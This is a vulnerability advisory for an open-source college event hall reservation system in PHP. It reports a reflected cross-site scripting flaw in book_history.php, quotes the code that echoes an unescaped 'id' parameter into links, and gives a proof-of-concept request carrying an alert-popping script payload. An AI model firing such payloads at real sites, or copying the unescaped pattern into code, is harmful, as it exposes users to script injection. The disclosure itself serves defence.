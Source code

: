 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Reflected XSS book_history.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /book_history.php

## Code
```php
$id = $_GET['id'];

 <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=Today">Today</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=Week">This Week</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=Month">This Month</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=User">User Cancelled</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>&filter=Admin">Admin Cancelled</a></li>
            <li><a class="dropdown-item" href="book_history.php?id=<?php echo $id; ?>">All</a></li>
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/book_history.php?id=%22%3E%3Cimg%20src=x%20onerror=alert(%22NoChizPlz%22)%3E HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/0c9e0749-9d44-4742-b12a-1c2601211053)

